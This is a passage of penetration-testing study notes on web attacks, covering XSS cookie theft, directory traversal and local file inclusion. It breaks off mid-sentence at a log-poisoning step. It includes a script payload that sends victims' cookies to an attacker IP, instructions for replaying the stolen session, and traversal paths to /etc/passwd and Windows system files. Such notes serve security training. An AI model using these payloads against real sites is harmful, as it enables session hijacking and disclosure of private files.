 #### **Stealing cookies and session information**

Cross site scripting can also be used to steal cookies and session information from site visitors.

```
<script> new Image().src=”http://10.11.0.5/cool.jpg?output=”+document.cookie; </script>
```

When a victim visits the page, their browser established a connection back to the attacking machine with an authenticated session id (listener required)

Once we have the session id, we can set it in our browser using a tool like Cookie-Editor, and browse to the page without providing credentials (assumed the cookie we captured was for an authenticated user).

### Directory Traversal

Directory traversal allows attackers to gain access to files that should not be accessible through a web application. These attacks are _information disclosures_ and occur when attackers are able to manipulate file paths.

#### Detection

Directory traversal vulnerabilities are often identified through the presence of file extensions in URLs. If identified, we can then use common OS files to test for vulnerabilities.

```
10.14.2.55/menu.php?file=index.php
```

```
Linux - /etc/passwd
Windows - c:/boot.ini
Windows - c:/windows/system32/drivers/etc/hosts
```

### File Inclusion

Whereas directory traversal vulnerabilities only disclose information, file inclusion vulnerabilities may enable code execution. Local file inclusion occurs when files are loaded from the local server, whereas remote file inclusion allows an attacker to included a file from an external source. These vulnerabilities are most commonly seen in php.

#### Detection

File inclusions are identified in the same way as directory traversals. If we locate URLs that include parameters, we should test for both vulnerabilities.

We can also attempt LFI through URL manipulation

`../../../../../../windows/system32/drivers/etc/hosts`

In PHP versions below 5.3, terminate the request with a null byte "(%00)"

#### Contaminating log files

Use netcat to connect to the target machine on port 80, then send the following command:
